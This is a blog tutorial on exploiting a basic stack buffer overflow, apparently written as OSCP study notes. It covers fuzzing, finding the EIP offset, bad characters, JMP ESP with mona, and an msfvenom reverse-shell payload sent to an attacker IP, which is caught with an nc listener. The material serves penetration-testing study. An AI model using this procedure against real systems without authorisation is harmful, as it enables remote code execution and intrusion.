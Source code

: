 ```yaml
---
title:  "Basic Buffer Overflows"
header: "Basic Buffer Overflows"
categories: 
  - Tutorial
tags:
  - Hacking
---
```


A lot can be said about buffer overflows and they are perhaps the most daunting part of attempting the OSCP for most. However, as you&#39;ll find in most of your offensive hacking endeavors, it&#39;s all about experimentation and tweaking your process. Below are the notes I used to successfully exploit several applications (given they didn&#39;t have standard security such as ASLR or DEP) and serves as a good example of understanding a basic buffer overflow.

**Fuzz the application**

If you don&#39;t have access to the code and there aren&#39;t any publicly disclosed exploits then another viable option is to fuzz the application and see what happens. Fuzzing is essentially the act of sending malformed or unintended data to an application and watching to see if it behaves abnormally such as crashing. Keep in mind that just because you cause an application to crash doesn&#39;t necessarily mean that it&#39;s vulnerable but it should key you into paying closer attention to it.

- Run the application
- Attach the debugger ([Immunity Debugger](https://www.immunityinc.com/products/debugger/) is a good option) to the application
- Run your fuzzer
- Write a script to replicate the crash (this is where you&#39;ll set the size of the buffer)

**Find out which part of the buffer overwrites EIP**

So you'll need to know a few key pieces of controlling EIP to figure out exactly what we're doing here

The **EIP** (*Extended Instruction Pointer*) register controls the execution flow of the application. Think of it as a steering wheel of a car, you can direct it where to go.

The **ESP** (*Extended Stack Pointer*) is an indirect memory operand pointing to the top of the stack. This is the point where the instructions that use the stack, actually use it.

Here's a view of these values in Immunity  
![EIP & ESP Example](/assets/images/eip_esp_example.jpg)

There are two basic tactics when attempting at controlling the EIP  
- **Binary Tree Analysis** (manual way) - essentially you split the buffer in a series of same characters until you notice the EIP getting over-written  
Example: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCCCCDDDDDDDDDD

- **Unique String** (automated way) - send a unique string so you can see which 4 bytes are written in the EIP.  
Example: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4

Naturally you'll want to use the Unique String Method whenever possible as it cuts down on discovery time and could lead to fewer mistakes.

- Create a unique string that's the size of your buffer (pattern\_create.rb is great for this, comes with Kali!)
  - Usage: `pattern\_create.rb 2200` <-- size of your buffer
- Place the output inside your script
- Run script and locate EIP's bytes  
![EIP](/assets/images/eip.jpg)
- Use pattern\_offset.rb to find the position from your pattern\_create script
  - Usage: `pattern-offset.rb 13731415` <--EIP value from crash
- It should return your location (something like 1403). This means that on the 1404th byte is where you can direct EIP. A good way to test this is to send a certain amount of A&#39;s, B&#39;s, and C&#39;s to see where the values are located
  - Example: buffer = &quot;A&quot;\*1403 + &quot;B&quot;\*4 + &quot;C&quot;\*793 &lt;----last part is to fulfill the original 2200 buffer

**(Optional) Increase the buffer size to allow room for shellcode**

The average size for shellcode is around 350-400 so you&#39;ll need to have roughly that much space left in the buffer. If you don&#39;t have enough then it&#39;s a good idea to increase the padding on your buffer either before or after the EIP director bytes.

**Discover bad characters**

To me this can be the most frustrating part of the process and often where people slip up. It&#39;s not so much that it&#39;s difficult but rather just tedious and attention to detail can go a long way. The purpose in discovering bad characters is to ensure that our shellcode doesn&#39;t get modified (truncated, character replaced, etc.). As a side note null values and carriage returns are notoriously bad characters.

- Place the below character listing in your fuzzer
`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13
\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26
\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39
\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c
\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72
\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85
\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98
\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe
\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1 
\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4 
\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7 
\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`  
- Run the fuzzer
- Look at memory location of ESP
- Discover where the increments are broken, malformed, omitted
- Remove the character from the buffer and continue until you&#39;ve completed them all

Example  
![Bad Characters](/assets/images/badchars.JPG)  

**Redirect EIP**

When the application starts each time you&#39;ll notice that your pointers are at different locations. To ensure that we always hit our shellcode, we&#39;ll need a solid/static location with each restart. There are a couple of requirements in this instance (this is just a basic example). Needs to be readable and executable and can&#39;t have DEP or ASLR enabled. A good place to look is any accompanying DLL&#39;s with the application. A good tool to help discover potential modules is mona.py, which once again comes with Kali.

- Once you&#39;ve found a solid module, you&#39;ll want to search for JMP ESP&#39;s within immunity
  - Search &gt; Sequence of Commands &gt; &quot;push esp (next line) retn&quot;
  - Search for jmp esp in the whole DLL
  - If you can&#39;t find one then the nasm\_shell command is FFE4 and you should search for that using mona.py
    - Usage: `!mona find –s "\xff\xe4" –m <vulnerable module>`  
![Mona](/assets/images/mona.jpg)  
  - Test and place the location within your fuzzer  
![JMP ESP](/assets/images/jmp_esp.jpg)  

By redirecting the EIP to our newly found address, at the time of the crash, a JMP ESP instruction will be executed, which will lead the execution flow into our shellcode

**Generate Shellcode**

Your shell code can be just about anything malicious that you want to do on the asset, but its typically used for returning a shell (but don&#39;t forget about other options like adding users, altering data, etc.). A basic tool to help with generating shellcode is msfvenom which is part of the Metasploit framework.

- In our example we&#39;re going to use a reverse shell and encode it with shikata\_ga\_nai (I highly recommend to explore some of the other encoders as they may be the only options with your bad characters combination)
  - Usage:  `msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT NUMBER> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "<BAD CHARACTERS>`  
![Shellcode](/assets/images/shellcode.jpg)  
- Make note of the size of your shellcode as you&#39;ll need to account for it and ensure that you have the proper space
- Within your fuzzer, place a few NOP&#39;s (\x90) before the shellcode to ensure it has enough room to decode and it won&#39;t trip over itself

**Exploit**

You&#39;re ready to fire off your exploit! I recommend setting a breakpoint at the JMP ESP address to verify if the shellcode gets executed

- Set up a listener on the port number that you chose
  - Usage: `nc –lvp <PORT NUMBER>`  
- Fire off your script and if everything works right you should be presented with a reverse shell from your target  
![Reverse Shell](/assets/images/shell.jpg)  

**Conclusion**  

These are just my notes and may or may not work for you. What really taught me was going through other hackers processes and picking out the pieces that I resonated  with the most and creating my own process. Setting out an outline, like below, will at least keep you on track and give you enough of an idea to know what to do next.

#### High-level Structure  
- Check to see if application is vulnerable by using a fuzzer (increments buffer until crash)
- Find out what part of the buffer overwrites EIP
- Increase buffer size to allow room for shellcode
- Discover bad characters that would break your shellcode
- Redirect EIP
- Generate shellcode
- Exploit
